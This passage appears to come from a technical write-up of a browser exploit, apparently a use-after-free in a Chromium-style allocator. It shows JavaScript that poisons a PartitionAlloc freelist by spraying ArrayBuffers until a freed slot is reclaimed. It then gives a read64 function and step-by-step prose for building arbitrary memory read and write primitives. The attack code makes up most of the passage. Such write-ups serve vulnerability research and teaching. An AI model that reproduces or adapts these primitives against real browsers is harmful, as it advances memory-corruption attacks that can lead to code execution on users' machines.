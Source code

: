 Programmatically it looks like this:

```js

gcPreventer = [];
// [0]

leaks[0] = byteSwapBigInt(metadata_area).i2f(); // [1]
uaf.set(leaks,0); // [1]
console.log("debug time");

var cnt = 0;
do {
        gcPreventer.push(new ArrayBuffer(0x8)); // [2]
        leaks.set(uaf,0); //[2]
        if(++cnt > 0x1000000){
            throw 24;
        }
        if(leaks[0] == 0){ // [2]
            ////console.log("got null, sice?");
            break;
        }
} while (1);

//console.log("sice???")
let freelist = new BigUint64Array(new ArrayBuffer(0x8)); // [3]
gcPreventer.push(freelist);
````


From this stage implementing arbitrary read/write primitives is trivial.

Arbitrary read consists of following steps:

- Set first element in freelist to the destination address
- Allocate an object. `PartitionAlloc` will do the "unlink", by reading first pointer from the destination address and setting it to the freelist. the object will be allocated at the destination address.
- Read first element in freelist while decoding the value, this gives the leaked bytes.
- Since the allocated object is initialized with zeroes, restore the value that was at the address by writing the leaked bytes to the allocated object.


```js
function read64(rwHelper, addr) {
    rwHelper[0] = addr; // [1]
    var tmp = new BigUint64Array(1); // [2]
    tmp.buffer;
    gcPreventer.push(tmp);
    tmp[0] =  byteSwapBigInt(rwHelper[0]); // [3] [4]
    return tmp[0];
}
 
```
